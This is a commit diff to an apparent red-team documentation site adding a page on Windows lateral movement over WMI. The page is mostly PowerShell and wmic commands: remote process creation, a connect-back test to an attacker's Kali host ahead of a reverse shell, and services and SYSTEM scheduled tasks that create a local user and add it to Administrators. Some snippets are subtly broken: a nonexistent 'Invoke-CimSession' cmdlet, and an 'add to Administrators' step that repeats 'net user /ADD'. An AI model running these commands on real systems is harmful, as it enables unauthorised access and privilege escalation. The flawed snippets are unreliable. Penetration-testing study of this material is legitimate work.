

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/pivot/lateral.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/pivot/lateral.md
+++ b/source/docs/pivot/lateral.md
@@ -1 +1,136 @@
 # Moving laterally using wmi
+
+## Connecting to wmi from powershell
+
+Create a credential object for authentication
+
+    $username = 'user.name'
+    $password = 'password' | ConvertTo-SecureString -AsPlainText -Force
+    $credential = [pscredential]::new($username, $password)
+
+Create a CIM session for repeated use:
+
+* `DCOM`: Connect to the target via RPC on TCP/135 , RPC will direct the client to high numbered port TCP/49152-65535
+* `WSman`: WinRM – connect via HTTP (TCP/5985) or HTTPS (TCP/5986)
+
+```text
+$server = 'target-ip / fqdn'
+$sessionopt = New-CimSessionOption -Protocol DCOM
+$session = New-CimSession -ComputerName $server -Credential $credential -SessionOption $sessionopt -ErrorAction Stop
+```
+
+## Remote process creation
+
+We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI
+request to the Win32_Process class to spawn the process under the session we created before:
+
+    $Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value whatever";
+
+    Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
+    CommandLine = $Command
+    }
+
+WMI will create the required process silently (it does not show the output of any command).
+
+On legacy systems, the same can be done using `wmic` from the command prompt:
+
+    wmic.exe /user:<username> /password:<password> /node:TARGET process call create "cmd.exe /c calc.exe"
+
+## Run a command remotely
+
+Run a command in the CIM session to test if the target can connect back to the attack machine as a pre-check to a
+reverse shell. Used is [Parameter splatting](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_splatting?view=powershell-7.2).
+With many thanks to [0xBEN](https://benheater.com/).
+
+    $kaliVpnIP = 'kali-vpn-ip'
+    $kaliPort = 443
+
+    # Try to connect back to Kali on a TCP port of choice
+    $command = "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command `"[Net.Sockets.TcpClient]::new().ConnectAsync('$kaliVpnIP', $kaliPort)`""
+
+    # Parameter splatting
+    $parameters = @{
+        CimSession = $session
+        ClassName = 'Win32_Process'
+        MethodName = 'Create'
+        Arguments = @{
+            CommandLine = $command
+        }
+    }
+    Invoke-CimSession @parameters
+
+## Creating services remotely
+
+Register a service called `fakeservice` on the target. This only creates the service and does not execute the command
+specified in `PathName`:
+
+    $parameters = @{
+        CimSession = $session
+        ClassName = 'Win32_Service'
+        MethodName = 'Create'
+        Arguments = @{
+            Name = 'fakeservice'
+            DisplayName = 'fakeservice'
+            PathName = 'net user <username> <password> /ADD'
+            ServiceType = [byte]16
+            StartMode = 'Manual'
+        }
+    }
+    Invoke-CimMethod @parameters
+
+Get the service and run it on the target. This will cause the service to run and create the local user `username`
+with a password of `password`.
+
+    $svc = Get-CimInstance -CimSession $session -ClassName Win32_Service -Filter "Name LIKE 'fakeservice'"
+    $svc | Invoke-CimMethod -MethodName StartService
+
+Change the command and add the `username` user to the local Administrators group.
+
+    $svc | Invoke-CimMethod -MethodName Change -Arguments @{PathName = 'net localgroup Administrators <username> /ADD'}
+    $svc | Invoke-CimMethod -MethodName StartService
+
+Cleanup:
+
+    $svc | Invoke-Cimmethod -MethodName StopService
+    $svc | Invoke-CimMethod -MethodName Delete
+
+## Scheduled tasks
+
+The action is to run:
+
+    cmd.exe /c net user add <username> <password> /ADD` .
+
+Payload must be split in `command` and `arguments`:
+
+    $command = 'cmd.exe'
+    $arguments = '/c net user <username> <password> /ADD'
+    $parameters = @{
+        CimSession = $session
+        Execute = $command
+        Argument = $arguments
+    }
+    $action = New-ScheduledTaskAction @parameters
+
+Create the task on the remote host and assign it the action stored in the `$action` variable, then start the task:
+
+    $parameters = @{
+        CimSession = $session
+        Action = $action
+        User = 'NT AUTHORITY\SYSTEM'
+        TaskName = 'taskname'
+    }
+    $task = Register-ScheduledTask @parameters
+    $task | Start-ScheduledTask
+
+Add the `username` user to the local administrators group:
+
+    $arguments = '/c net user <username> <password> /ADD'
+    $parameters = @{
+        CimSession = $session
+        Execute = $command
+        Argument = $arguments
+    }
+    $action = New-ScheduledTaskAction @parameters
+    $task = Set-ScheduledTask -CimSession $session -TaskName taskname -Action $action
+    $task | Start-ScheduledTask
+    $task | Unregister-ScheduledTask
````
Also changed, not shown: source/docs/pivot/spawning.md (+1 -2 lines).
